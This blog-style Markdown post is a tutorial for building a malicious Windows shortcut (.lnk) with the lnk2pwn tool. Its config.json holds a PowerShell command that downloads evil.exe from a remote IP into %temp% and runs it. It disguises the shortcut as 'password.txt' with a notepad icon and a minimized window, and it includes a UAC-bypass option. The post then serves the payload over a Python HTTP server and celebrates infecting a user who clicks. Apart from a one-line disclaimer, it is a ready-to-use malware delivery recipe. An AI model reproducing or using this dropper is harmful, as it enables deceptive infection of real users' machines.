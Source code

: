 ```yaml
---
title: "Create malicious Shortcut .LNK"
date: "2020-10-03"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Hey, everyone. Let's create some fileless malware using shortcut (.lnk). 

Don't do bad things haa, Allah marah! This is for education and research purpose only.

## Malicious Shortcut(.lnk) Generator

So, Lnk2Pwn will help us generate malicious shortcut .lnk
For nstallation, lnk2pwn requires **python2.7** and **wine** to create a Windows shortcut:

    sudo apt-get install python2.7
    sudo apt-get install wine

You can get the lastest version by clonning this repository:

    git clone https://github.com/tommelo/lnk2pwn.git
In lnk2pwn directory, edit config.json. The project contains a template file called config.json that defines the attributes of the .lnk file:

    {
        "shortcut": {
            "target_path": "C:\\Windows\\System32\\cmd.exe",
            "working_dir": "C:\\Windows\\System32",
            "arguments": "/c powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.83.128:8000/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"",
            "icon_path": "C:\\Windows\\System32\\notepad.exe",
            "icon_index": null,
            "window_style": "MINIMIZED",
            "description": "Password",
            "fake_extension": ".txt",
            "file_name_prefix": "password"
        },
    
        "elevated_uac": {
            "file_name": "uac_bypass.vbs",
            "cmd": "cmd.exe"
        }
    }

So, basically the `arguments` part will execute Powershell (PS) command that tell PS to download `evil.exe` and put the `evil.exe` into temp (%temp%) folder. After semicolon, we tell the PS to start/execute our `evil.exe`.

Now, run this line to generate our malicious .lnk:

    python lnk2pwn.py -c config.json -o [destination]

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/1.PNG)

Our lnk file now has been generated. Let's put this malicious .lnk file into our target machine.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/2.PNG)
Looks legit right?

## Open our HTTP server
Setup our HTTP server so that evil.exe can be download from HTTP link we give in our PS line (`http://192.168.83.128:8000/evil.exe`)

    python -m SimpleHTTPServer

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.PNG)
## Pwned by a Shortcut

So, if a user click the `password.txt`(.lnk), they will be infected. Hooray 🎉

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.gif)
